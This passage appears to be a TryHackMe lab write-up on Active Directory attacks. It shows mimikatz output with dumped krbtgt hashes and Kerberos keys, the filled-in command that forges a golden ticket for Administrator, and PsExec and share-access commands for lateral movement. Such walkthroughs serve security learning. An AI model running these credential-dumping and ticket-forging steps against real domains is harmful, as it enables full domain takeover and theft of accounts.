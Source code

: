```powershell
27  e69385ee50f9d3e105f50c61c53e718e
28  ca006400aefe845da46b137b5b50f371
29  15a607251e3a2973a843e09c008c32e3

* Kerberos
Default Salt : CONTROLLER.LOCALkrbtgt
Credentials
des_cbc_md5       : 64ef5d43922f3b5d

* Kerberos-Newer-Keys
Default Salt : CONTROLLER.LOCALkrbtgt
Default Iterations : 4096
Credentials
aes256_hmac       (4096) : 8e544cabf340db750cef9f5db7e1a2f97e465dffbd5a2dc64246bda3c75fe53d
aes128_hmac       (4096) : 7eb35bddd529c0614e5ad9db4c798066
des_cbc_md5       (4096) : 64ef5d43922f3b5d

* NTLM-Strong-NTOWF
Random Value : 666caaaaf30081f30211bd7fa445fec4
```

from those we can create a golden Ticket

`kerberos::golden /user: /domain: /sid: /krbtgt: /id:`

in this case it would give

`kerberos::golden /user:Administrator /domain:controller.local /sid:S-1-5-21-849420856-2351964222-986696166 /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500`

```powershell
User      : Administrator
Domain    : controller.local (CONTROLLER)
SID       : S-1-5-21-849420856-2351964222-986696166
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime  : 11/19/2021 4:08:13 PM ; 11/17/2031 4:08:13 PM ; 11/17/2031 4:08:13 PM
-> Ticket : ticket.kirbi

* PAC generated
* PAC signed
* EncTicketPart generated
* EncTicketPart encrypted
* KrbCred generated

Final Ticket Saved to file !
```

To use our ticket we run in mimikatz `misc::cmd`
`Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF7D8DA43B8`
This will open a new command prompt with elevated privileges to all machines (amazing)
exit and try stuff like `dir \\Desktop-1\c$ ` or `PsExec.exe \\Desktop-1 cmd.exe`
normally you get those commands executed but tryhackme doesnt allow networking here
